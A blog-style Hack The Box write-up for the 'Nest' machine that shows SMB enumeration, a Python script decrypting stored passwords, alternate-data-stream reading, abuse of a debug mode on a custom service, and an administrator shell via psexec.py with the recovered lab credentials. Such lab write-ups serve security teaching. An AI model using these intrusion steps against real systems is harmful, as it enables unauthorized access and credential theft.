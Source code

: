 ```yaml
---
title: Nest - HTB
date: 2025-04-28 14:00:00 +0200
categories: HTB
tags: 
toc: true
comments: true
image: ./assets/img/attachments/nest-1.png
imageNameKey: nest
---
```


In this writeup, I’ll walk through how I solved the Nest machine from Hack The Box, covering the vulnerabilities, exploits, and techniques used. Its 4/1000
# Port Enumeration 
First step is to run full port scan 
```bash
nmap 10.129.234.96 -p- -Pn -A -T5
```
![w](/assets/img/attachments/nest.png)

We have open SMB port and another custom service.
I used anonymous login for smb
```bash
 smbclient -L \\10.129.234.96 
```
![w](/assets/img/attachments/nest-2.png)

I will check Users, Secure and Data
![w](/assets/img/attachments/nest-3.png)

Found this at Data shares, and it contains temp password
![w](/assets/img/attachments/nest-4.png)

Will use this credentials to enumerate smb much further
```bash
smbclient //10.129.234.96/<shares> -U TempUser%welcome2019
```

Then i downloaded all accessible files on every share
```bash
smb: \> prompt OFF
smb: \> recurse ON 
smb: \> mget *
```

# User Credentials
In RU_config.xml there's hashed password
![w](/assets/img/attachments/nest-6.png)

But couldn't crack it, with more enumeration:
![w](/assets/img/attachments/nest-8.png)

I found this files which says there's user in IT shares called Carl, Since i couldn't list IT in Secure$ share, I will try to access carl directly
![w](/assets/img/attachments/nest-9.png)

It worked. Let's download all the files we can get.
![w](/assets/img/attachments/nest-10.png)

After some enumeration, I found this file which contains the code used for encrypting the password i found earlier, now we can decode it!

```python
import base64
import hashlib
from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2

def decrypt(ciphertext_b64):
    # Parameters from the VB.NET code
    passphrase = "N3st22"
    salt = b"88552299"
    iterations = 2
    init_vector = b"464R5DFA5DL6LE28"
    key_size = 32  # 256 bits = 32 bytes

    # Derive the key using PBKDF2
    key = PBKDF2(passphrase, salt, dkLen=key_size, count=iterations)

    # Decode the Base64 ciphertext
    ciphertext = base64.b64decode(ciphertext_b64)

    # Create AES cipher in CBC mode
    cipher = AES.new(key, AES.MODE_CBC, init_vector)

    # Decrypt the ciphertext
    decrypted = cipher.decrypt(ciphertext)

    # Remove possible padding (PKCS7/PKCS5 padding assumed)
    padding_length = decrypted[-1]
    decrypted_text = decrypted[:-padding_length].decode('ascii')

    return decrypted_text

if __name__ == "__main__":
    encrypted_value = "fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE="
    decrypted_value = decrypt(encrypted_value)
    print("Decrypted Password:", decrypted_value)

```
![w](/assets/img/attachments/nest-11.png)

Then i logged in smb with this new credentials and found user.txt
![w](/assets/img/attachments/nest-12.png)
# Privialage Escalatiom
Inside C.Smith directory 
![w](/assets/img/attachments/nest-13.png)

Debug Mode password file was empty, but the hint said we can find more info using allinfo in smb
![w](/assets/img/attachments/nest-14.png)
```bash
smb:> get "Debug Mode Password.txt":Password:$DATA
```
Inside the file we got this password, and if you remember we find this pass in directory called HQK Reporting, and this was the service running on port 4386
![w](/assets/img/attachments/nest-15.png)

From nmap:
```bash
ORT     STATE SERVICE VERSION
4386/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     Reporting Service V1.2
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     Reporting Service V1.2
|     Unrecognised command
|   Help: 
|     Reporting Service V1.2
|     This service allows users to run queries against databases using the legacy HQK format
|     AVAILABLE COMMANDS ---
|     LIST
|     SETDIR <Directory_Name>
|     RUNQUERY <Query_ID>
|     DEBUG <Password>
|_    HELP <Command>

```

```bash
ncat --crlf 10.129.234.96 4386
```
![w](/assets/img/attachments/nest-16.png)

```bash
HQK Reporting Service V1.2

>debug WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
>HELP

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
SERVICE
SESSION
SHOWQUERY <Query_ID>

>LIST

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  COMPARISONS
[1]   Invoices (Ordered By Customer)
[2]   Products Sold (Ordered By Customer)
[3]   Products Sold In Last 30 Days

Current Directory: ALL QUERIES
>SERVICE

--- HQK REPORTING SERVER INFO ---

Version: 1.2.0.0
Server Hostname: HTB-NEST
Server Process: "C:\Program Files\HQK\HqkSvc.exe"
Server Running As: Service_HQK
Initial Query Directory: C:\Program Files\HQK\ALL QUERIES

>SETDIR ..
                                                                                                                                              
Current directory set to HQK                                                                                                                  
>LIST                                                                                                                                         
                                                                                                                                              
Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command                                      
                                                                                                                                              
 QUERY FILES IN CURRENT DIRECTORY                                                                                                             
                                                                                                                                              
[DIR]  ALL QUERIES                                                                                                                            
[DIR]  LDAP                                                                                                                                   
[DIR]  Logs                                                                                                                                   
[1]   HqkSvc.exe                                                                                                                              
[2]   HqkSvc.InstallState                                                                                                                     
[3]   HQK_Config.xml                                                                                                                          
                                                                                                                                              
Current Directory: HQK                                                                                                                        
>SETDIR LDAP                                                                                                                                  
                                                                                                                                              
Current directory set to LDAP                                                                                                                 
>LIST                                                                                                                                         
                                                                                                                                              
Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command                                      

 QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: LDAP
>SHOWQUERY 2

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=

```

And we found administrator password on local 389, and the password is in the same format of the first pass of C.Smith so lets use the same script to decode and decrypt it
It didnt work!

![w](/assets/img/attachments/nest-17.png)

Since its .NET assembly i will use Ilspy
![w](/assets/img/attachments/nest-18.png)

In it I found the algorithm used for this password encryption, then i used the decryption part of the code to get the decrypted password
```bash
XtH4nkS4Pl4y1nGX
```

To get root flag 
```bash
psexec.py 'administrator:XtH4nkS4Pl4y1nGX@10.129.234.96' 
```

![w](/assets/img/attachments/nest-21.png)

And Finally rooted!